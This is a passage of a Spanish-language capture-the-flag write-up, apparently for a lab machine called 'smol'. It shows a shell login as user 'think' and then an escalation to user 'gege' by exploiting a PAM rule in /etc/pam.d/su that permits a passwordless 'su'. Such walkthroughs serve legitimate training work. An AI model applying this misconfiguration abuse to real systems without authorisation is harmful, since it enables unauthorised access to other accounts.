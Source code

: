 ```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 08 Apr 2025 06:48:02 AM UTC

  System load:  0.17              Processes:                205
  Usage of /:   55.9% of 9.75GB   Users logged in:          0
  Memory usage: 32%               IPv4 address for enp0s17: 192.168.1.169
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

162 updates can be applied immediately.
125 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

think@smol:~$ whoami
think
```

Echo esto veremos que estamos dentro.

## Escalate user gege

Despues de una busqueda intensiva, si leemos el siguiente archivo veremos lo siguiente:

```shell
cat /etc/pam.d/su | grep "gege"
```

Info:

```
auth  [success=ignore default=1] pam_succeed_if.so user = gege
```

Vemos que si ahora realizamos lo siguiente podremos escalar a dicho usuario sin ningun tipo de `password`, por lo que haremos lo siguiente:

```shell
su gege
```

Y con esto ya seremos dicho usuario.
